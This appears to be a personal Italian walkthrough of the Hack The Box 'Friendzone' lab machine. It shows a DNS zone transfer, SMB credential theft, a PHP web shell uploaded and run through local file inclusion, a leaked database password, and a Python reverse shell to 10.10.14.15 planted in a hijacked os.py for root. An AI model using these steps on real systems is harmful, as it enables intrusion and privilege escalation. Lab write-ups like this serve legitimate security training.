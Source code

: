 Cosa fare:

1) con nmap mi accorgo che c'è un server dns quindi, avendo ottenuto il dominio perfetto (sese) che sarebbe friendzone.red
2)faccio: dig +multi AXFR friendzone.red @10.10.10.123

; <<>> DiG 9.11.3-1ubuntu1.7-Ubuntu <<>> +multi AXFR friendzone.red @10.10.10.123
;; global options: +cmd
friendzone.red. 604800 IN SOA localhost. root.localhost. (
    2 ; serial
    604800 ; refresh (1 week)
    86400 ; retry (1 day)
    2419200 ; expire (4 weeks)
    604800 ; minimum (1 week)
    )
friendzone.red. 604800 IN AAAA ::1
friendzone.red. 604800 IN NS localhost.
friendzone.red. 604800 IN A 127.0.0.1
administrator1.friendzone.red. 604800 IN A 127.0.0.1
hr.friendzone.red. 604800 IN A 127.0.0.1
uploads.friendzone.red. 604800 IN A 127.0.0.1
friendzone.red. 604800 IN SOA localhost. root.localhost. (
    2 ; serial
    604800 ; refresh (1 week)
    86400 ; retry (1 day)
    2419200 ; expire (4 weeks)
    604800 ; minimum (1 week)
    )
;; Query time: 43 msec
;; SERVER: 10.10.10.123#53(10.10.10.123)
;; WHEN: Thu Jul 04 15:49:27 CEST 2019
;; XFR size: 8 records (messages 1, bytes 289)

3) analizzando la macchina noto un samba, quindi accedo con smclient //10.10.10.123/general (write and read) -u root
4) get di credential.txt
5) quindi vado su https://administrator1.friendzone.red/dashboard.php
6) e mi uppo la shell php su smbclient //10.10.10.123/Development
Unable to initialize messaging context
Enter WORKGROUP\davide's password:
Try "help" to get a list of possible commands.
smb: \> ls
  . D 0 Thu Jul 4 11:09:07 2019
  .. D 0 Wed Jan 23 22:51:02 2019

  9221460 blocks of size 1024. 6458124 blocks available
smb: \> put /home/davide/hack/tools
tools tools1/
smb: \> put /home/davide/hack/tools1/
altdns/ dirtycow/ les.sh           phpshell.php static-binaries/
cosafare dnscan/ LinEnum/ sqlinjection
smb: \> put /home/davide/hack/tools1/phpshell.php
NT_STATUS_OBJECT_PATH_NOT_FOUND opening remote file \home\davide\hack\tools1\phpshell.php
smb: \> òs
òs: command not found
smb: \> ls
  . D 0 Thu Jul 4 11:09:07 2019
  .. D 0 Wed Jan 23 22:51:02 2019

  9221460 blocks of size 1024. 6458120 blocks available
smb: \> put /home/davide/h
hack/ hs_err_pid6825.log
smb: \> put /home/davide/hack/tools1/
altdns/ dirtycow/ les.sh           phpshell.php static-binaries/
cosafare dnscan/ LinEnum/ sqlinjection
smb: \> put /home/davide/hack/tools1/phpshell.php phpshell.php
putting file /home/davide/hack/tools1/phpshell.php as \phpshell.php

7) accedo a https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/phpshell

Root:
1) su /var/www/mysql... troviamo delle credenziali dell'utente friend, quindi:
2) db_user=friend

db_pass=Agpyu12!0.213$

3) andiamo su ssh friend e
4) siamo friend, eseguendo psypy mi accorgo che c'è un processo eseguito da root report.py
5) mi vado a stampare report.py, non posso modificarlo, ma importa os.py, vado a modificare quello
6) metto alla fine del file os.py : import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.15",7080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
7) e sono root.